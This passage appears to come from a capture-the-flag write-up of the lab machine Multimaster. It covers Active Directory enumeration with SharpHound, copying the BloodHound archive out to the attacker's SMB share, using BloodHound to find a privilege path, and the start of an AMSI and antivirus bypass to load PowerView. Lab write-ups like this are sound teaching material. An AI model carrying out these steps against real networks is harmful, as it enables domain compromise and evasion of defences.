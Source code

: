     Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container                                                              
    
    [+] Creating Schema map for domain MEGACORP.LOCAL using path CN=Schema,CN=Configuration,DC=MEGACORP,DC=LOCAL
    [+] Cache File not Found: 0 Objects in cache
    
    [+] Pre-populating Domain Controller SIDS
    Status: 0 objects finished (+0) -- Using 19 MB RAM
    Status: 94 objects finished (+94 ì)/s -- Using 27 MB RAM
    Enumeration finished in 00:00:00.6367272
    Compressing data to .\20200401043525_BloodHound.zip
    You can upload this file directly to the UI
    
    SharpHound Enumeration Completed at 4:35 AM on 4/1/2020! Happy Graphing! 
    

I’ll move that back to my box:

    
    
    *Evil-WinRM* PS C:\programdata> move 20200401043525_BloodHound.zip \\10.10.14.19\share\
    

### BloodHound Analysis

Loading that into Bloodhound, I’ll start by bringing up the three accounts
I’ve owned and marking them as such (right click and select Mark as Owned).
Then I’ll run the query “Shortest Paths to High Value Targets”, and it returns
this:

[![image-20200401144617068](https://0xdfimages.gitlab.io/img/image-20200401144617068.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20200401144617068.png)

It’s a bit of a mess, but in looking at it, two of the accounts I’ve owned are
on there. tushikikatomo is there just because they can PSRemote. But sbauer
has GenericWrite on jorden, who is a member of a high priority group, Server
Operators. That seems like a valid path.

### Bypass AMSI

Taking advantage of the relationships outlined by BloodHound is most easily
done with `PowerView.ps1` from
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit). I copy it into
my SMB share and onto Multimaster, but when I try to load it, it is rejected
by the AV:

    
    
    *Evil-WinRM* PS C:\programdata> copy \\10.10.14.19\share\PowerView.ps1 .                  
    *Evil-WinRM* PS C:\programdata> . .\PowerView.ps1                    
    At C:\programdata\PowerView.ps1:1 char:1                                                 
    + #requires -version 2                                                                   
    + ~~~~~~~~~~~~~~~~~~~~                                                                   
    This script contains malicious content and has been blocked by your antivirus software.  
    At C:\programdata\PowerView.ps1:1 char:1                                                 
    + #requires -version 2                                                                   
    + ~~~~~~~~~~~~~~~~~~~~                                                                   
        + CategoryInfo          : ParserError: (:) [], ParseException                        
        + FullyQualifiedErrorId : ScriptContainedMaliciousContent 
    